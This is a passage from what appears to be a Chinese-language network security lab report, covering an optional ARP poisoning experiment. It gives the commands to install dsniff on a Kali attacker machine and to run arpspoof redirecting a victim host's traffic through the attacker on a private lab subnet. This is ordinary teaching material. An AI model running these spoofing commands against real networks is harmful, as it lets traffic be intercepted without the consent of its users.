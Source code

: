 ![](image/pinggw.png)  

![](image/ipneigh3.png)  

### 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

- 使用 dsniff 进行 ARP劫持   
  - arpspoof 指定目标的 arp 欺骗重定向  

首先在攻击者主机 kali 上安装 dsniff  
```
 sudo apt update 
 sudo apt install dsniff
```
事先确定受害者主机可以联网，`ping baidu.com`  
在攻击者主机上执行以下命令：  
```
arpspoof -i eth0 -t <受害者主机IP地址> <网关IP地址> 
sudo arpspoof -i eth0 -t 172.16.111.139 172.16.111.1  
```

![](image/arpspoof.png)   
